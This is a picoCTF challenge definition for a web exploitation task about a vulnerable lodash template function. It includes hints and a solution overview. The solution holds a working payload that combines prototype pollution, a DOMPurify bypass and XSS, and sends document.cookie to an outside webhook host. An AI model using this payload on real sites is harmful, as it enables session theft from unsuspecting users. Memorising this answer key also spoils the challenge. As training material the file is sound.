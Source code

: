 # supply-me-vuln

- Namespace: picoctf/18739f24
- ID: supply-me-vuln
- Type: custom
- Category: Web Exploitation
- Points: 1
- Templatable: yes
- MaxUsers: 1

## Description

The site uses a buggy library! Figure it out and carry out the exploit!


## Details

Browse {{link_as('/', 'here')}}, and find the flag!


## Hints

- How do you determine what library is running behind the scene?
- Can you get its version?

## Solution Overview

- Install library detector extension on your browser and detect the library being used
- some of them provides the version of the library, if not, since the target library is lodash, we can print the version out with _.VERSION
- By searching online we know that lodash 4.17.20 has a code injection vulnerability in its template function
- Inspect the behavior and given source code of the function `pass_val`, combined with the lodash template usage to build up a XSS payload
- carry out the attack to get the flag saved in document.cookie of another user, use a self-host server to get the 
  redirected request
- https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/dompurify.md
- cookie exploit url for remote server: http://localhost:8000?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src&__proto__[hasOwnProperty]={}&name=<img src onerror=fetch('https://webhook.site/62766d8c-83e6-40b6-a12d-6f65c884f7ce?cookie='%2Bdocument.cookie)>



## Learning Objective

- Get to know about the supply chain attacks

## Attributes

- author: Ian Lin
- organization: picoCTF
- event: picoCTF Problem Developer Training
